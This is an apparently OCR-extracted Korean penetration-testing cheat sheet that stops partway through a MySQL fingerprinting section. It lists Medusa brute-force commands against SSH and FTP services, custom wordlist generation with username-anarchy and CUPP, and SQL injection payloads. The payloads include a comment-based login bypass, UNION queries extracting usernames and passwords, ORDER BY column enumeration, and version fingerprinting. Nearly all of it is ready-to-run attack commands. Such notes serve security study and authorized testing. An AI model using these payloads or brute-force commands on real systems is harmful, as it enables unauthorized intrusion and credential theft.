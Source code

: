 ```
### 빈 비밀번호 또는 기본 비밀번호 테스트
```medusa -h 10.0.0.5 -U usernames.txt -e ns -M service_name```

### FTP 서버를 타겟팅
```medusa -h 127.0.0.1 -u ftpuser -P 2020-200_most_used_passwords.txt -M ftp -t 5```

<br/><br/>
# 사용자 정의 단어 목록

## 1. 사용자 이름 Anarchy
```
sudo apt install ruby -y
git clone https://github.com/urbanadventurer/username-anarchy.git
cd username-anarchy
./username-anarchy Jane Smith > jane_smith_usernames.txt
```

## 2. CUPP (Common User Passwords Profiler)
```
sudo apt install cupp -y
cupp -i    # 대화형 모드
grep -E '^.{6,}$' jane.txt | grep -E '[A-Z]' | grep -E '[a-z]' | grep -E '[0-9]' | grep -E '([!@#$%^&*].*){2,}' > jane-filtered.txt   # 비밀번호 정책 적용
```

<br/><br/>
# SQL Injection
> 참고 : [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass)

## 1. 주석 사용

### 주석이 있는 인증 우회
```SELECT * FROM logins WHERE username='admin'-- ' AND password = 'something';```

## 2. Union 절

### 짝수 Columns
```SELECT * from products where product_id = '1' UNION SELECT username, password from passwords-- '```

### 고르지 않은 Columns
```SELECT * from products where product_id UNION SELECT username, 2, 3, 4 from passwords-- '```

## 3. Union Injection

### ORDER BY 사용
```
' order by 1-- -
' order by 2-- -
' order by 3-- -
' order by 4-- -
```
> 알림: (-) 뒤에 공백이 있다는 것을 나타내기 위해 대시(-)를 하나 더 추가

### UNION 사용
```
cn' UNION select 1,2,3-- -
cn' UNION select 1,2,3,4-- -
```

### Injection 위치
```cn' UNION select 1,@@version,3,4-- -```

## 4. MySQL Fingerprinting

### INFORMATION_SCHEMA 데이터베이스
```